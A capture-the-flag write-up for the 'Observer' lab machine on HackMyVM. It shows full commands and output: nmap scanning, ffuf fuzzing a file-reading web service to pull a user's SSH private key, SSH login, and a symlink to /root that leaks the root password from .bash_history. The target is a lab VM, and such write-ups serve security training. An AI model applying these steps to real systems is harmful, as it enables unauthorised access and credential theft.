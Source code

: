 ```yaml
---
categories: [HackMyVM]
tags: [Fuzzing, PrivEsc, Soft_Link]
img_path: /Vulnhub-Files/img/
image:
  path: Observer/Untitled.png
  alt: HackMyVM Machine 📷
---
```


HackMyVM Machine ➡️ &nbsp;&nbsp;<kbd>Easy</kbd> &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
<kbd>#Fuzzing</kbd>&nbsp;&nbsp;<kbd>#Soft_Link</kbd>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;


## Port Scan Results ⤵️

![Untitled](Observer/Untitled%201.png)

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Observer]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_Result.txt 10.0.2.83   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-27 12:42 IST
Nmap scan report for 10.0.2.83
Host is up (0.0011s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 9.2p1 Debian 2 (protocol 2.0)
| ssh-hostkey: 
|   256 06:c9:a8:8a:1c:fd:9b:10:8f:cf:0b:1f:04:46:aa:07 (ECDSA)
|_  256 34:85:c5:fd:7b:26:c3:8b:68:a2:9f:4c:5c:66:5e:18 (ED25519)
3333/tcp open  dec-notes?
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 200 OK
|     Date: Mon, 27 Nov 2023 07:13:06 GMT
|     Content-Length: 105
|     Content-Type: text/plain; charset=utf-8
|     OBSERVING FILE: /home/nice ports,/Trinity.txt.bak NOT EXIST 
|     <!-- sbOJiFQGZsnwTKSmVoiGLOpbUOpEdKHMV -->
|   GenericLines, Help, Kerberos, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Date: Mon, 27 Nov 2023 07:12:41 GMT
|     Content-Length: 78
|     Content-Type: text/plain; charset=utf-8
|     OBSERVING FILE: /home/ NOT EXIST 
|     <!-- XVlBzgbaiCMRAjWwhTHctcuAxhxKQFHMV -->
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Date: Mon, 27 Nov 2023 07:12:41 GMT
|     Content-Length: 78
|     Content-Type: text/plain; charset=utf-8
|     OBSERVING FILE: /home/ NOT EXIST 
|_    <!-- DaFpLSjFbcXoEFfRsWxPLDnJObCsNVHMV -->
1 service unrecognized despite returning data.
```
{: file='Nmap_Result.txt'}

## Web Enumeration ⤵️

I checked port 80 →

![Untitled](Observer/Untitled%202.png)

It can reads the content from `home` directory means inside the home directory I have to find the `username` and the file name to read so I used `ffuf Tool` for username bruteforce →

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Observer]
└─$ ffuf -c -mc 200,301,302,401 -fc 404,500,401 -w /usr/share/seclists/Discovery/Web-Content/big.txt -u 'http://10.0.2.83:3333/FUZZ/.ssh/id_rsa' -fw 8 -fl 4 -o ffuf_parameter

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       'v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.0.2.83:3333/FUZZ/.ssh/id_rsa
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/big.txt
 :: Output file      : ffuf_parameter
 :: File format      : json
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,301,302,401
 :: Filter           : Response status: 404,500,401
 :: Filter           : Response words: 8
 :: Filter           : Response lines: 4
________________________________________________

cgi-bin/                [Status: 301, Size: 55, Words: 3, Lines: 3, Duration: 14ms]
jan                     [Status: 200, Size: 2602, Words: 7, Lines: 39, Duration: 10ms]
:: Progress: [20476/20476] :: Job [1/1] :: 5000 req/sec :: Duration: [0:00:06] :: Errors: 0 ::
```

I got the username as `jan` and I used the file name as `.ssh/id_rsa` , That gives me the private keys of that user and I can login now →

![Untitled](Observer/Untitled%203.png)

Now lets Login →

## SSH Shell ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HackMyVM/Observer]
└─$ ssh -i id_rsa jan@10.0.2.83
Linux observer 6.1.0-11-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.38-4 (2023-08-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Nov 27 08:53:33 2023 from 10.0.2.77
jan@observer:~$ whoami
jan
jan@observer:~$ id
uid=1000(jan) gid=1000(jan) grupos=1000(jan),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev)
jan@observer:~$ hostname
observer
jan@observer:~$
```

lets see the sudoer file that can lead me to root →

```bash
jan@observer:~$ sudo -l
Matching Defaults entries for jan on observer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User jan may run the following commands on observer:
    (ALL) NOPASSWD: /usr/bin/systemctl -l status
jan@observer:~$
```

I tried it and observed that the system processes are running `/opt/observer` as we can see from its web server part through root user →

![Untitled](Observer/Untitled%204.png)

As this is ran through root user so I cna try to access the root files through the web application so for that I need to create a soft link that will redirect to the root directory .

```bash
jan@observer:~$ ln -s /root root
jan@observer:~$ ls -al
total 40
drwx------ 4 jan  jan  4096 nov 27 09:29 .
drwxr-xr-x 3 root root 4096 ago 21 20:19 ..
-rw------- 1 jan  jan   711 nov 27 09:21 .bash_history
-rw-r--r-- 1 jan  jan   220 ago 21 20:19 .bash_logout
-rw-r--r-- 1 jan  jan  3526 ago 21 20:19 .bashrc
drwxr-xr-x 3 jan  jan  4096 ago 21 20:21 .local
-rw-r--r-- 1 jan  jan   807 ago 21 20:19 .profile
lrwxrwxrwx 1 jan  jan     5 nov 27 09:29 root -> /root
drwx------ 2 jan  jan  4096 ago 21 20:25 .ssh
-rw------- 1 jan  jan    24 ago 21 20:21 user.txt
-rw------- 1 jan  jan    54 ago 21 20:21 .Xauthority
jan@observer:~$
jan@observer:~$ cd root
-bash: cd: root: Permiso denegado
jan@observer:~$
```

Now Lets access `.bash_history` file common known file in a user directory →

![Untitled](Observer/Untitled%205.png)

I got the root password from here so lets Login and be a root user →

```bash
jan@observer:~$ su root
Contraseña: 
su: Fallo de autenticación
jan@observer:~$ su root
Contraseña: 
root@observer:/home/jan# cd ~
root@observer:~# whoami
root
root@observer:~# id
uid=0(root) gid=0(root) grupos=0(root)
root@observer:~# hostname
observer
root@observer:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute 
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:48:8b:ad brd ff:ff:ff:ff:ff:ff
    inet 10.0.2.83/24 brd 10.0.2.255 scope global dynamic enp0s3
       valid_lft 331sec preferred_lft 331sec
    inet6 fe80::a00:27ff:fe48:8bad/64 scope link 
       valid_lft forever preferred_lft forever
root@observer:~# cat root.txt
FLAG-------FLAG-------FLAG
root@observer:~# ls -al
total 52
drwx------  5 root root 4096 nov 27 09:29 .
drwxr-xr-x 18 root root 4096 ago 21 20:17 ..
-rw-------  1 root root  668 nov 27 09:21 .bash_history
-rw-r--r--  1 root root  571 abr 10  2021 .bashrc
drwxr-xr-x  3 root root 4096 ago 21 20:23 .cache
-rw-------  1 root root   55 nov 27 09:29 .lesshst
drwxr-xr-x  3 root root 4096 ago 21 20:23 .local
-rw-r--r--  1 root root  913 ago 21 20:23 observer.go
-rw-r--r--  1 root root  161 jul  9  2019 .profile
-rw-------  1 root root   24 ago 21 20:24 root.txt
-rw-r--r--  1 root root   66 ago 21 20:23 .selected_editor
drwx------  2 root root 4096 ago 21 20:15 .ssh
-rw-r--r--  1 root root  161 ago 21 20:22 .wget-hsts
root@observer:~#
```

Now am Root !!